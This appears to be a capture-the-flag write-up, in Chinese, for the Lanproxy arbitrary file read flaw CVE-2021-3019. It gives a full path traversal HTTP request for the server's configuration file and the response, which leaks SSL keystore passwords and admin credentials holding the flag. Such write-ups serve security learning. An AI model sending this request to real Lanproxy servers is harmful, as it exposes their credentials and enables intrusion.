

# lanproxy_cve-2021-3019

根据 `CVE-2021-3019 Lanproxy 任意文件读取漏洞`  读取配置文件获取 FLAG

### Request

```http
GET /../../conf/config.properties HTTP/1.1
Host: 192.168.195.134:32805
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### Response

```http
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Server: LPS-0.1
Content-Length: 369

server.bind=0.0.0.0
server.port=4900

server.ssl.enable=true
server.ssl.bind=0.0.0.0
server.ssl.port=4993
server.ssl.jksPath=test.jks
server.ssl.keystorePassword=123456
server.ssl.keyManagerPassword=123456
server.ssl.needsclientAuth=false

config.server.bind=0.0.0.0
config.server.port=8090
config.admin.username=FLAG
config.admin.password=flag{GZCTF_dynamic_flag_test}
```



